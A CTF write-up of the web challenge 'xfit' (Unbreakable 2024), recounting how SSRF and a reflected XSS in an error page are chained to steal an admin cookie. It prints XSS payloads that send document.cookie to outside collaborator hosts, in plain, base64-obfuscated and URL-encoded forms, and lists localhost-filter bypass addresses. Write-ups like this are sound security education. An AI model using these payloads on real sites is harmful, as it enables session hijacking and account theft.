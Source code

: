 ```yaml
---
title: xfit
date: 2024-04-07T14:23:28+03:00
description: Writeup for xfit [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## DISCLAIMER

This challenge was not solved during the competition, but we were really close of the solution and spend a lot of time on it. We decided to write a writeup to
describe our approach and the solution we found after the competition.

## Challenge Description

Picture this: within the vast expanse of the digital realm, lies a crucial secret vault—a clandestine cache known as cookies. But beware, for these digital treasures are not scattered haphazardly. No, they are meticulously guarded within the confines of their respective domains, each one a sentinel of its cyber kingdom. It's a thrilling saga of hidden treasures and guarded gateways, where the very essence of your online identity hangs in the balance!


## Intuition

The description mention subdomains and cookies. Combining these two and the name of the challenge,
I assumed I had to steal cookie by using XSS. The website is a static one with only two endpoints:
 - `/contact` which send an email (it seems only the message parameter is required)
 - `/error?err=404` which returns a 404 error page (or 500, 200, ...)

![img.png](/images/unbreakable_2024/contact.png)
![img_1.png](/images/unbreakable_2024/err.png)

Here we can see the request to the `/contact` endpoint.

![img.png](/images/unbreakable_2024/request.png)

## What we tried

First we tried to remove all parameter from the request in order to see the behavior of the website.
We noticed we received some parsing error with a findLinks function. It gave us a hint about a potential SSRF or 
CSRF vulnerability.

![img.png](/images/unbreakable_2024/parse.png)

In order to confirm that wa tried to request a server under our control with this [tool](https://app.interactsh.com/#/).

![img.png](/images/unbreakable_2024/test.png)
![img_1.png](/images/unbreakable_2024/response.png)

As we can see above we got the request which means the server is visiting the link we provided.

Going back to the error page, it seems that the error parameter is vulnerable to XSS as the following picture shows.

![img.png](/images/unbreakable_2024/xss.png)

```js
<img src=x onerror=confirm(1)>
```

Knowing that we can now steal the cookie using the following logic:
 - Send a message to the `/contact` endpoint with the following payload:
```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="document.location='http://xhtfiwjfrxvxawnsmojcux2nwwez03yx3.oast.fun/?c='%2Bdocument.cookie">
```
 - Wait for the server to visit the error page
 - The admin's cookie will be sent to our server
 - Profit

![img.png](/images/unbreakable_2024/trying.png)

Unfortunately we do not receive any cookie it seems the parsing is not working as expected.

![img.png](/images/unbreakable_2024/noCookie.png)

The supposition is that the parsing ignore the first part of the URL (green part below) but 
only understand the second part as URL (blue part below). Therefore, it does not execute any javascript which
means we cannot steal the cookie.

![img.png](/images/unbreakable_2024/fail.png)

To bypass this we decided to base64 encode the second part with this payload:

```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly94aHRmaXdqZnJ4dnhhd25zbW9qY3V4Mm53d2V6MDN5eDMub2FzdC5mdW4vP2M9Jytkb2N1bWVudC5jb29raWU='))">
```

Unfortunately, this time, we did not receive any request on our server, so we assumed the parsing had some anti-SSRF
protection by blacklisting the localhost / 127.0.0.1 IP.

We started a lot of bypass techniques such as `http://0177.0.0.01`, `http://0x7f.0x0.0x0.0x1` and many more without success.

## Solution

We were pretty close of the actual solution but we were wrong by thinking that the parsing functions blacklisted the localhost IP.
We missed something when trying URL encoding and then base64 encoding. The correct payload was actually an URL encoded one but
apparently we did it wrong.

```js
http://localhost/error.html?err=%3Cimg%20src%3Dx%20onerror%3Ddocument%2Elocation%3D%22http%3A%2F%2Fzyeapckdjkrwivdzxeeabjaadiyukbx8f%2Eoast%2Efun%2F%3Fc%3D%22%2Bdocument%2Ecookie%3E
```

In conclusion the challenge trolled us because when we tried the correct payload with URL encoding only but,
the server either did not execute the javascript (document.cookie) or the server just crashed except 
one time for random and mysterious reason where we got the flag (after the CTF ended).

![img.png](/images/unbreakable_2024/fuck.png)


